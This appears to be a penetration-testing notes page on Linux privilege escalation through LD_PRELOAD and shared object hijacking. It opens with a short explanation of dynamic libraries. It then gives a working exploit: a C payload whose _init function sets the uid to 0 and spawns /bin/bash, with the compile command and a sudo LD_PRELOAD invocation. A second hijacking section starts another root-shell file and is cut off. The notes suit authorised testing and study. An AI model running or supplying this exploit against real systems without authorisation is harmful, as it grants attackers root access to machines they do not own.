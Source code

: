 ````
- It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. Two types of libraries exist in Linux: static libraries (denoted by the .a file extension) and dynamically linked shared object libraries (denoted by the .so file extension).

- There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the -rpath or -rpath-link flags when compiling a program, using the environmental variables LD_RUN_PATH or LD_LIBRARY_PATH, placing libraries in the /lib or /usr/lib default directories, or specifying another directory containing the libraries within the /etc/ld.so.conf configuration file.

- Additionally, the LD_PRELOAD environment variable can load a library before executing a binary.

```bash
### requirements
ld_preload have to be active ( verify with sudo -l)
being allowed to run a cmd ( verify with sudo -l)
#  lists all the libraries required by /bin/ls
ldd /bin/ls

# LD_PRELOAD Privilege Escalation
sudo -l
```

- create and compile c file

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

```bash
# compile
gcc -fPIC -shared -o root.so root.c -nostartfiles
# move the file to /tmp/<fileName>
# run
sudo LD_PRELOAD=/tmp/<FileInTMPFOLDER> <CMDUtilisable>
```

###### Shared Object Hijacking

- We can use ldd to print the shared object required by a binary or shared object. Ldd displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies
  ```bash
  ldd <fileName>
  ```
- Inspect run path
  ```bash
  readelf -d <BinaryFileName>  | grep PATH
  ```
- create a shell root

  ```c
  #include<stdio.h>
  #include<stdlib.h>
````